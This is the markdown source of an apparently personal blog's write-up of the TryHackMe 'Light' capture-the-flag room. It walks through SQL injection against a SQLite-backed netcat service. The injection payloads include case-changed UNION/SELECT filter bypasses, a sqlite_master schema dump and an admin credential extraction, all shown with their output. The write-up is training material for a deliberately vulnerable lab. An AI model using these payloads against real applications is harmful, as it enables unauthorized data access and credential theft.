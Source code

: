 ```yaml
---
title: "TryHackMe: Light"
author: jaxafed
categories: [TryHackMe]
date: 2025-01-20 00:00:01 +0000
tags: [sql, sql injection, sqlite]
render_with_liquid: false
media_subpath: /images/tryhackme_light/
image:
  path: room_image.webp
---
```


**Light** was a simple room where we exploited an `SQL` injection in a `SQLite` database to retrieve the credentials for the admin user and a flag.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/lightroom){: .center }

## Discovering the SQL Injection

As per the room instructions, after connecting to the service on port `1337`, we encounter a database application.

```console
$ rlwrap nc 10.10.67.194 1337
Welcome to the Light database!
Please enter your username:
```

The room also instructs us to use the username `smokey` to begin, and upon entering it, we retrieve the password for the user.

```console
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

Since it is a database application, if we try a simple `SQL` injection with `'`, we see that it is successful as we get the error: `Error: unrecognized token: "''' LIMIT 30"`.

```console
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
```

Trying a union-based injection and commenting out the `' LIMIT 30` part with `--`, we encounter an interesting error stating that `/*`, `--`, or `%0b` are not allowed.

```console
Please enter your username: ' UNION SELECT 1-- -
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```

Instead of trying to comment out the last part due to the `'` causing errors, since `SELECT 1 ''` is a valid query, we can turn the query into `UNION SELECT 1 '' LIMIT 30` by appending `'` to our payload as `' UNION SELECT 1 '`. As we can see, this works, but this time we encounter an interesting error about certain words not being allowed.

```console
Please enter your username: ' UNION SELECT 1 '
Ahh there is a word in there I don't like :(
```

It seems the `UNION` and `SELECT` keywords are not allowed, but we can easily bypass this filter by using capitalization.

```console
Please enter your username: UNION
Ahh there is a word in there I don't like :(
Please enter your username: SELECT
Ahh there is a word in there I don't like :(
Please enter your username: Union
Username not found.
Please enter your username: Select
Username not found.
```

As we can see now, with the payload `' Union Select 1 '`, we are successful with a union-based injection.

```console
Please enter your username: ' Union Select 1 '
Password: 1
```

## Identifying the DBMS

With the union-based injection we have, if we attempt to identify the database management system, we discover it is `SQLite`.

```console
Please enter your username: ' Union Select version() '
Error: no such function: version
Please enter your username: ' Union Select USER_ID(1) '
Error: no such function: USER_ID
Please enter your username: ' Union Select sqlite_version() '
Password: 3.31.1
```

## Dumping Database Structure

Now that we know the DBMS is `SQLite`, we can use the payload `' Union Select group_concat(sql) FROM sqlite_master '` to extract the database structure, as shown below:

```console
Please enter your username: ' Union Select group_concat(sql) FROM sqlite_master '
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

## Extracting Data

Since our goal is to find the credentials for the admin user, we can dump the `username` and `password` fields from the `admintable` using the payload `' Union Select group_concat(username || ":" || password) FROM admintable '` and this not only gives us the credentials but also the flag, allowing us to complete the room.

```console
Please enter your username: ' Union Select group_concat(username || ":" || password) FROM admintable '
Password: Tr[REDACTED]in:ma[REDACTED]17,flag:THM{SQ[REDACTED]O?}
```
{: .wrap }

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>



